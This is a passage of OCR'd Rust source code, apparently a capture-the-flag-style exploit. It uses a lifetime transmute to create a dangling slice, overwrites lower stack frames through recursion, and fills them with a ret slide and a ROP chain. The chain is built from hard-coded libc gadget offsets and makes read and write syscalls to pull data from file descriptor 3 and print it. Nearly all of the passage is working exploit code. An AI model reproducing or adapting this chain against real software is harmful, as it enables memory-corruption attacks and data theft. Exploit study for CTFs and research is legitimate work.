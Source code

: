 ```rust
    let mut x = 0;
    transmute_lifetime(&mut a)
}

// This function is only used to raise the stack frame and allow the dangling
// slice to overwrite the stack frame of low stack frames.
fn rec(a: &mut [u64], b: &mut [u64], attack: &mut [u64], n: u64, lib_c: u64, wpos: u64) {
    let mut array: [u64; 3] = [0; 3];
    a[0] += 1;
    b[0] += 1;

    array[0] = a[0] + 1;
    array[1] = a[0] + b[1] + 1;

    if a[0] > n {

        /*

        pop rsi // pointer
        pop rdx // 100
        pop rdi // 3
        pop rax // 0
        syscall

        pop rdi // 1
        pop rax // 1
        syscall

        */

        let pop_rax_ret = lib_c + 0x3a638 - 0x22000;
        let syscall_inst = lib_c + 0x24104 - 0x22000;
        let ret = lib_c + 0x2235f - 0x22000;
        let pop_rsi_ret = lib_c + 0x2440e - 0x22000;
        let pop_rdx_ret = lib_c + 0x106725 - 0x22000;
        let pop_rdi_ret = lib_c + 0x23a5f - 0x22000;
        let syscall_ret = lib_c + 0xb5b35 - 0x22000;

        // Overwrite the stack with ret slide
        for (j, el) in attack.iter_mut().enumerate() {
            *el = ret;
        }

        // Write our small rop chain
        let x = 50;
        // attack[x] = pop_rax_ret;
        // attack[x + 1] = 0x1337;
        // attack[x + 2] = syscall_inst;
        attack[x - 2] = pop_rsi_ret;
        attack[x - 1] = wpos;
        attack[x] = pop_rdx_ret;
        attack[x + 1] = 100;
        attack[x + 2] = pop_rdi_ret;
        attack[x + 3] = 3;
        attack[x + 4] = pop_rax_ret;
        attack[x + 5] = 0;
        attack[x + 6] = syscall_ret;
        attack[x + 7] = pop_rdi_ret;
        attack[x + 8] = 1;
        attack[x + 9] = pop_rax_ret;
        attack[x + 10] = 1;
        attack[x + 11] = syscall_ret;

```